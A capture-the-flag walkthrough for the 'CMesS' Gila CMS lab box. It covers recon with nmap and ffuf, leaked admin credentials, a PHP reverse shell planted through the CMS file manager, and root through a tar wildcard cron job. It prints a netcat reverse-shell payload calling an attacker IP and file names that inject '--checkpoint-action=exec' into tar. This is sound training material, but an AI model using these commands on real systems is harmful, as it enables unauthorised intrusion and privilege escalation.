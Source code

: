 # CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
![web](web.png)  
There is nothing interesting here. ):

### Dirsearch
![dsearch](dsearch.png)  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
![ffuf](ffuf.png)  
We got only one subdomain `dev.cmess.thm`  
- Add `dev.cmess.thm` to **/etc/hosts**  
  ![hosts](hosts.png)

## Admin panel
If we go there we can see a user and a password!  
![pass](pass.png)  
`andre@cmess.thm`:`KPFTN_f2yxe%`  
Use these creds in `cmess.thm/admin`  
![login](login.png)  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
![revshell](revshell.png)  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got:
```
andres backup password
UQfsdCB7aAP6
```
Now just ssh in as andre with the new creds `andre`:`UQfsdCB7aAP6`  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  
![gotroot](gotroot.png)

# Got root and got the flag from `/root/root.txt`
